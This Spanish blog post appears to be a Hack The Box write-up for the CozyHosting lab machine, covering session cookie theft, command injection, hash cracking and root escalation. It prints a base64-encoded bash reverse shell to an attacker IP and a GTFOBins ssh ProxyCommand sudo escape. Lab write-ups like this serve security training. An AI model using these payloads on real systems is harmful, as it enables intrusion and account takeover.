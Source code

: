 ```yaml
---
layout: single
title: GreenHorn - Machines - Hack The Box
excerpt: "cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema."
date: 2023-12-22
classes: wide
header:
  teaser: /assets/images/htb-machines-cozyhosting/cozyhosting1.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - BurpSuite
  - Password Cracking
  - Steal Web Session Cookie
  - cozyhosting
  - Hashcat
  - gtfobins
    
---
```


![](/assets/images/htb-machines-cozyhosting/cozyhosting1.png)

cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema.

## 1. Enumeración 

Realizamos un escaneo de puertos con Nmap y evidenciamos dos puertos abiertos.

•	SSH (22)

•	HTTP (80)

![](/assets/images/htb-machines-cozyhosting/cozyhosting2.png)

Al ingresar al servicio por el puerto 80, nos redirige al dominio “cozyhosting.htb”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting3.png)

Vamos a agregar este dominio a nuestro archivo "etc/hosts".

![](/assets/images/htb-machines-cozyhosting/cozyhosting4.png)

Ahora navegamos al dominio y empezamos la revisión del sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting5.png)

## 2.	Acceso Inicial

Realizamos la búsqueda de directorio con la herrmaineta “dirsearh” y encontramos el siguiente directorio.

•	/actuator/sessions.

![](/assets/images/htb-machines-cozyhosting/cozyhosting6.png)

Al ingresar al directorio, observamos que contiene los JESSIONID de los usuarios autenticados.

![](/assets/images/htb-machines-cozyhosting/cozyhosting7.png)

Procedemos a utilizar la Cookie de sesión para intentar autenticarnos en el sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting8.png)

Luego de iniciar sesión, observamos que existe una funcionalidad que permite una conexión SSH. Procedemos a ingresar la IP de nuestro equipo y un usuario cualquiera. 

![](/assets/images/htb-machines-cozyhosting/cozyhosting9.png)

Luego interceptamos la petición con BurpSuite.

![](/assets/images/htb-machines-cozyhosting/cozyhosting10.png)

Creamos un reverse Shell y lo codificamos en base64.

![](/assets/images/htb-machines-cozyhosting/cozyhosting11.png)

Ahora vamos a necesitar convertir la carga útil en un formato sin espacios, es decir reemplazar los espacios por ${IFS%??}. Para ello vamos a utilizar el siguiente servicio en línea.

•	https://www.urlencoder.org/es.

•	Carga útil: 	echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvNzc3NyAwPiYxCg==" | base64 -d | bash.

![](/assets/images/htb-machines-cozyhosting/cozyhosting12.png)

Nos ponemos a la escucha en nuestra maquina atacante por el mismo puerto que configuramos en nuestro reverse Shell. Ahora enviamos la petición desde BurpSuite y esperamos recibir la conexión.

![](/assets/images/htb-machines-cozyhosting/cozyhosting13.png)

Observamos un archivo con extensión “.jar”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting14.png)

Vamos a descargarlo e intentar leer el contenido. Iniciamos un servidor web en el equipo víctima.

![](/assets/images/htb-machines-cozyhosting/cozyhosting15.png)

Ahora descargamos el contenido del archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting16.png)

Para poder leer el contenido del archivo, vamos a necesitar instalar en nuestra maquina atacante “JD-GUI” desde la siguiente página.

•	https://java-decompiler.github.io.

Luego de la instalacion, procedemos a leer el archivo descargado. Identificamos credenciales para la base de datos PostgresSQL.

![](/assets/images/htb-machines-cozyhosting/cozyhosting17.png)

Iniciamos sesión en el equipo víctima con estas credenciales, listamos el contenido de la tabla users y encontramos dos hashes.

![](/assets/images/htb-machines-cozyhosting/cozyhosting18.png)

Guardamos esos hash en un archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting19.png)

Ahora con la herramienta Hashcat vamos a intentar crackear el hash de admin.

![](/assets/images/htb-machines-cozyhosting/cozyhosting20.png)

Pudimos obtener la contraseña.

![](/assets/images/htb-machines-cozyhosting/cozyhosting21.png)

Ahora listamos los usuarios de la maquina y observamos el usuario “Josh”. Vamos a utilizar la contraseña junto con el usuario Josh para intentar cambiar de sesión.

Ahora que estamos en la sesión del usuario Josh, vamos a obtener nuestra primera flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting22.png)

Nos vamos a conectar por ssh con las mismas credenciales solo para tener mejor control del equipo y una Shell más interactiva.

![](/assets/images/htb-machines-cozyhosting/cozyhosting23.png)


## 3. Escalada de privilegios

Identificamos que comando puede ejecutar el usuario actual con permisos de root.

Existe una carga útil en GTFOBINS que permite generar un shell interactivo a través de la opción ProxyCommand.

•	https://gtfobins.github.io/gtfobins/ssh/#sudo

•	Carga útil: ssh -o ProxyCommand=';sh 0<&2 1>&2' x

Ahora solo nos queda obtener nuestra segunda flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting24.png)
